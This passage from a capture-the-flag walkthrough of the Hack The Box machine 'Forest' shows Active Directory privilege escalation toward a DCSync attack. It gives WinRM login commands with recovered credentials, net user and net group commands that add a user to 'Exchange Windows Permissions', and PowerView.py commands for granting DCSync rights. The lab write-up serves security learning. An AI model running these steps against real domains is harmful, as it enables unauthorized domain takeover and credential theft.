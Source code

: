The first step is to create a new account and add it to the `Exchange Windows Permissions` group. This will provide the new account with `WriteAcl` permissions on the domain.

Next, we will use this new account to escalate our privileges and obtain `Domain Replication` permissions on the domain. With these elevated privileges, we can perform a `DCSync` attack.

### Get a Shell on the Server

Since `SVC_ALFRESCO` has `PS Remoting` permissions, we can use `evil-winrm` to establish a PowerShell session on the server.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/forest]
└─$ netexec winrm 10.129.59.175 -u svc-alfresco -p 's3rvice'                        
```
Once the shell is established, we will create a new user called `tony` using the [Net User command](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771865(v=ws.11)).

```shell
net user tony Welcome@123 /add
```

Once the account is created, we will add it to the `Exchange Windows Permissions` group by running the following [Net Group command](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754051(v=ws.11)):

```shell
net group 'Exchange Windows Permissions' tony /add
```

We can verify if the user was successfully added to the group by running the `Get-ADGroupMember` PowerShell command:

```Shell
Get-ADGroupMember -Identity 'Exchange Windows Permissions'
```

### Perform a DCSync Attack

Now that we have successfully obtained `WriteDacl` permissions on the domain, we can proceed with granting `DCSync` privileges to the account. For this, we will use [`PowerView.py`](https://github.com/aniqfakhrul/powerview.py), a Python implementation of the [original PowerView PowerShell modules](https://powersploit.readthedocs.io/en/latest/Recon/#powerview).

We can start the `PowerView` session by running the following:

```shell
powerview htb/tony:'Welcome@123'@10.129.59.175 --dc-ip 10.129.59.175
```

After logging in, `tony` can grant himself `DCSync` permissions on the domain by running the `Add-DomainObjectAcl` command:

However, before proceeding, let's check the available options by running the command with the `-h` flag for help.

```shell
PV > Add-DomainObjectAcl -h
usage: powerview Add-DomainObjectAcl [-h] -TargetIdentity TARGETIDENTITY
                                     -PrincipalIdentity PRINCIPALIDENTITY
                                     [-Rights [{immutable,fullcontrol,resetpassword,writemembers,dcsync}]]
                                     [-RightGUID RIGHTS_GUID]
                                     [-ACEType [{allowed,denied}]] [-Inheritance]
                                     [-Server SERVER] [-OutFile OUTFILE]

options:
  -h, --help            show this help message and exit
  -TargetIdentity TARGETIDENTITY
  -PrincipalIdentity PRINCIPALIDENTITY
  -Rights [{immutable,fullcontrol,resetpassword,writemembers,dcsync}]
```